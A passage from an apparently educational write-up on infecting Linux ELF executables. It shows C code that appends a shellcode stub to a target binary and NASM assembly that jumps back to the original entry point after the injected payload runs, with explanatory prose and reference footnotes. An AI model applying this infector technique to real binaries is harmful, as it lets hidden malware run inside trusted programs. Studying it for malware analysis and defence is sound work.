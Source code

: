 ```C
    // Realloc new size, memcpy jump_shellcode into extended space
    size_t new_len = *shellcode_len + sizeof(jump_shellcode);
    unsigned char *new_shellcode = realloc(*shellcode, new_len);
    if (new_shellcode == NULL) {
        fprintf(stderr, "Error reallocating shellcode buffer\n");
        free(*shellcode);
        exit(1);
    }
    memcpy(new_shellcode + *shellcode_len, jump_shellcode, sizeof(jump_shellcode));
    *shellcode = new_shellcode;
    *shellcode_len = new_len;
}
```

Our shellcode length, aka VSIZE, is stored starting at byte 8. Our entry point, aka `ENTRY`, is stored at byte 17. Our original entry, aka `START` is stored at byte 27. 

See, the constants we define in the assembly -- which we use to generate the jump shellcode -- are merely placeholders. The values in the `jump_shellcode` array are being overwritten with *our* values -- our shellcode length, entry point, and original entry. 

After the patch function completes, we go back to the main function where we write all of this back to the target ELF -- appending our shellcode to the *end* of the binary by calling `SEEK_END` on our ELF file descriptor -- and using our write gadgets to write back the altered program headers to the ELF file.

Below is the assembly code of the `jump_shellcode` array. If it doesn't make sense yet, I'll try to explain below.

```nasm
BITS 64
%define VSIZE 0xDEADBEEFDEADBEEF   
%define ENTRY 0xBAADF00DBAADF00D
%define START 0xB16B00B5B16B00B5   

    ; - position independent executables move addresses, so
    ; 1) call to get_foo instruction pointer into rax then 
    ; 2) load our constants into registers r9, r10, r11
    ; 3) subtract our malware size, (& subtract 5!)
    ;   *(the size of the get_foo instruction)
    ; 4) subtract patched entry offset from rax  
    ; 5) add our original entry point to r11
    ; 6) finally jmp to rax
    call get_foo
    mov r9, VSIZE
    mov r10, ENTRY
    mov r11, START
    sub rax, r9
    sub rax, 5
    sub rax, r10
    add rax, r11
    jmp rax
get_foo:
    mov rax, [rsp]
    ret
```


[^1]: https://github.com/torvalds/linux/blob/master/include/uapi/linux/elf.h#L226
[^2]: https://man7.org/linux/man-pages/man5/elf.5.html
[^3]: https://docs.oracle.com/cd/E19683-01/817-3677/chapter6-83432/index.html
[^4]: https://elixir.bootlin.com/linux/v6.13.4/source/fs/binfmt_elf.c#L362
[^5]: https://man7.org/linux/man-pages/man2/execve.2.html
[^6]: https://man7.org/linux/man-pages/man2/brk.2.html
[^7]: https://stackoverflow.com/questions/6988487/what-does-the-brk-system-call-do
[^8]: https://elixir.bootlin.com/linux/v6.13.4/source/fs/binfmt_elf.c#L734
[^9]: https://docs.oracle.com/cd/E19683-01/816-1386/6m7qcobkp/index.html
[^10]: https://elixir.bootlin.com/glibc/glibc-2.1/source/elf/rtld.c
[^11]: https://docs.oracle.com/cd/E19683-01/816-1386/chapter6-83432/index.html
[^12]: https://en.wikipedia.org/wiki/Address_space_layout_randomization#Linux
[^13]: "Note on resolving Elf_Hdr->e_entry in PIE executables." https://archive.org/details/pocorgtfo20/page/n49/mode/1up